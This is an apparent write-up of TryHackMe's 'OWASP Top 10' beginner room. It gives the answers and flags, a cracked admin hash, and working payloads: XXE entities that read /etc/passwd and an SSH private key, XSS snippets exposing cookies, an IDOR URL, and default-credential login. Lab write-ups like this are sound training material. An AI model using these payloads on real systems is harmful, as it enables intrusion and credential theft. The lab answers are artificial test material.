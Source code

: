 # Notes for the room OWASP Top 10 (https://tryhackme.com/room/owasptop10). Part of the "Complete Beginner Path"

## Questions and answers:

### Task 5

What strange text file is in the website root directory?

- Just use the command `ls`

```
drpepper.txt
```

How many non-root/non-service/non-daemon users are there?

```
0
```

What user is this app running as?

- Check the user with `ps - ef`

```
www-data
```

What version of Ubuntu is running?

- Run the command `cat /etc/os-release`

```
18.04.4
```

Print out the MOTD.  What favorite beverage is shown?

- Run the command `cat /etc/update-motd.d/00-header`

```
dr. peper
```

### Task 7

What is the flag that you found in darren's account?

```
fe86079416a21a3c99937fea8874b667
```

What is the flag that you found in arthur's account?

```
d9ac0f7db4fda460ac3edeb75d75e16e
```

### Task 11

What is the name of the mentioned directory?

- Go to login page and view page source 

```
/assets
```

Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?

```
webapp.db
```

Use the supporting material to access the sensitive data. What is the password hash of the admin user?

- `sq3lite webapp.db` --> `PRAGMA table_info(users);` --> `SELECT * FROM users;`

```
6eea9b7ef19179a06954edd0f6c05ceb
```

What is the admin's plaintext password?

```
qwertyuiop
```

Login as the admin. What is the flag?
```
THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```

### Task 13

Full form of XML

```
eXtensible Markup Language
```

Is it compulsory to have XML prolog in XML documents?
```
No
```

Can we validate XML documents against a schema?
```
Yes
```

How can we specify XML version and encoding in XML document?

```
XML Prolog
```

### Task 14

How do you define a new ELEMENT?
```
!ELEMENT
```

How do you define a ROOT element?

```
!DOCTYPE
```

How do you define a new ENTITY?

```
!ENTITY
```

### Task 15

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`.

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### Task 16

Try to display your own name using any payload.

```
<!DOCTYPE replace [<!ENTITY name "mmjasen"> ]>
 <userInfo>
  <firstName>mmja</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

See if you can read the /etc/passwd

```
Check answer above
```

What is the name of the user in /etc/passwd
```
falcon
```

Where is falcon's SSH key located?
```
/home/falcon/.ssh/id_rsa
```

What are the first 18 characters for falcon's private key?

Command:

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa>]>
<root>&read;</root>
```
Result:
```
MIIEogIBAAKCAQEA7b
```

### Task 18

Look at other users notes. What is the flag?

Go to: 

```
IP/note.php?note=0
```
Output:
```
flag{fivefourthree} 
```

### Task 19

Hack into the webapp, and find the flag!

- Search for 'Pensive Notes' on google it will give you a github-page: https://github.com/NinjaJc01/PensiveNotes. In the README there is a default username:password

```
thm{4b9513968fd564a87b28aa1f9d672e17}
```

### Task 20

Navigate to http://MACHINEIP in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

Run command:

```
<script>alert(“Hello World”)</script>
```
Output:

```
ThereIsMoreToXSSThanYouThink
```

On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

Run command:

```
<script>alert(window.location.host)</script>
```

Output and answer:

```
ReflectiveXss4TheWin
```

Now navigate to http://MACHINEIP in your browser and click on the "Stored XSS" tab on the navbar; make an account.

Then add a comment and see if you can insert some of your own HTML.

Create simple button:

```
<html>
<body>
<h1>Button mmja</h1>
<button type="button" onclick="alert('Hello world!')">Click Me</button>
</body>
</html>
```

Insert and get output:

```
HTML_T4gs
```

On the same page, create an alert popup box appear on the page with your document cookies.

See here: https://www.w3schools.com/js/js_cookies.asp

Command:

```
<script>alert(document.cookie)</script>
```

Output and answer:

```
W3LL_D0N3_LVL2
```

Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

Check the hint

```
websites_can_be_easily_defaced_with_xss
```

